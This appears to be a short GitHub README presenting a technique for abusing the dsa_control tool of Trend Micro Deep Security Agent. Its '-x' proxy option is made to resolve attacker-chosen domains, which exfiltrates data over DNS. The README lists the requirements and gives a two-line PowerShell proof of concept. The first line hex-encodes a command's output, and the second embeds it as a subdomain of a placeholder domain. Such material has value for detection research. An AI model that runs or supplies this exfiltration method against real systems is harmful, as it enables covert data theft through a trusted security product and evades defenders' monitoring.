



## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool


An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed

dsa_control path: (default)
- `C:\Program Files\Trend Micro\Deep Security Agent\`


## Trend Micro Configuration



## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example




